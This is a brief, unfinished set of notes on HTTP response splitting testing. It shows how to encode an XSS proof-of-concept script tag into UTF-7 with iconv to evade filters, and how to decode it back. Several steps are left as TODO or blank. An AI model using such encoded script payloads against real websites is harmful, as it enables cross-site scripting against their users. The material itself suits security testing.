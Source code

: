 # Instructions for HTTP Response Splitting testing

1. Find vulnerable target
    - See instructions: TODO
2. Create payload
   - You can encode the payload with iconv
   ```
   echo '<script>alert("XSS");</script>' | iconv -f utf-8 -t utf-7
   

   # Output
   +ADw-script+AD4-alert(+ACI-XSS+ACI)+ADsAPA-/script+AD4
   
   ```
3. 
4. 

```
echo '+ADw-script+AD4-alert(+ACI-XSS+ACI)+ADsAPA-/script+AD4' | iconv -f utf-7 -t utf-8

<script>alert("XSS");</script>
```





































































